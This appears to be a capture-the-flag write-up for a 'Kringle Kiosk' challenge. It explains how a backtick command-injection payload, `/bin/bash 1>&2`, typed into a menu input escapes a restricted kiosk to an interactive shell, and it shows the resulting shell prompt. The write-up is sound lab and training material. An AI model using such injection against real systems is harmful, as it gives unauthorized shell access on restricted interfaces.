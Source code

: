 # Kiosk escape to shell
Option 4 gives a  hint that special characters may cause errors, after trying to execute `/bin/bash` in between back ticks "`" it seems it works but we receive no output to the console so we try again to redirect the stdout to stderror

![Access](A-KringleKiosk-access.png)

![Welcome](A-KringleKiosk-welcome.png)

## Escaping to shell
Using back ticks can be used to execute shell comamnds but the output is being filtered, so to show the output we redirect the `stdout` to `stderr`

```
`/bin/bash 1>&2`
```
And we escape to the shell.

```
   ___                                                      _    
  / __|   _  _     __      __      ___     ___     ___     | |   
  \__ \  | +| |   / _|    / _|    / -_)   (_-<    (_-<     |_|   
  |___/   \_,_|   \__|_   \__|_   \___|   /__/_   /__/_   _(_)_  
_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_| """ | 
"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 

Type 'exit' to return to the menu.

shinny@9bf4b0fee057:~$
```

![Solution](A-KringleKiosk-solution.png)